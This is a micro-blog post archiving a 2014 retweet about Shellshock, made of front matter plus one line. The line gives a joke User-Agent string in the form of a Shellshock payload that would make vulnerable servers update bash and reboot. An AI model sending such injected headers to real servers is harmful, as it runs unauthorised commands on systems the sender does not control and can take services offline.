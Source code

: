 ```yaml
---
title: 
category: micro
date: "2014-09-26 17:38:32"
slug: "2014-09-26T17:38:32"
TwitterId: "515556038792081409"
TweetUrl: "https://twitter.com/mark_philpot/status/515556038792081409"
ReTweetUser: pixnbits
---
```


<i class="fa fa-retweet" aria-hidden="true"></i> browsing the web with user
agent `() {.:;.}; yum -y update bash; apt-get -y update bash;
reboot` #shellshock
